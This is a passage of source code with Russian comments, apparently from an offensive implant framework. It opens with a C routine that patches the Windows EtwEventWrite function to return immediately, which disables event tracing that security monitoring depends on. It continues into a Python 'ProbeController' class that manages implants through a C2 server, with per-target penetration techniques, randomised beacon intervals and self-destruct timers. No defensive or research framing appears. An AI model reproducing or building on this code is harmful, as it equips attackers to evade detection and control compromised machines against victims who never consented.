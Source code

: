     FARPROC pEtwEventWrite = GetProcAddress(hNtdll, "EtwEventWrite");
    if (!pEtwEventWrite) return FALSE;
    
    // Патч: xor eax, eax; ret
    BYTE patch[] = { 0x31, 0xC0, 0xC3 };
    
    // Меняем защиту памяти
    DWORD oldProtect;
    if (!VirtualProtect(pEtwEventWrite, sizeof(patch), 
                      PAGE_EXECUTE_READWRITE, &oldProtect)) {
        return FALSE;
    }
    
    // Применяем патч
    memcpy(pEtwEventWrite, patch, sizeof(patch));
    
    // Восстанавливаем защиту
    VirtualProtect(pEtwEventWrite, sizeof(patch), oldProtect, &oldProtect);
    
    return TRUE;
}

8. Центральная логика управления зондами

# Система управления и мониторинга зондов
class ProbeController:
    def __init__(self, c2_server):
        self.c2_server = c2_server
        self.active_probes = {}
        self.target_map = {}
        self.encrypted_channel = EncryptedChannel()
    
    def generate_probe(self, target, capabilities=None):
        """Генерирует новый зонд с оптимальной конфигурацией для цели"""
        # Анализируем цель и выбираем наилучшие техники проникновения
        target_info = self.analyze_target(target)
        
        # Определяем оптимальные возможности зонда
        if not capabilities:
            capabilities = self.determine_optimal_capabilities(target_info)
        
        # Создаем конфигурацию зонда
        config = ProbeConfig(
            probe_id=str(uuid.uuid4()),
            encryption_key=os.urandom(32),
            initial_target=target,
            communication_interval=random.randint(60, 300),  # 1-5 минут
            self_destruct_timer=random.randint(1, 24),      # 1-24 часа
            capabilities=capabilities
        )
        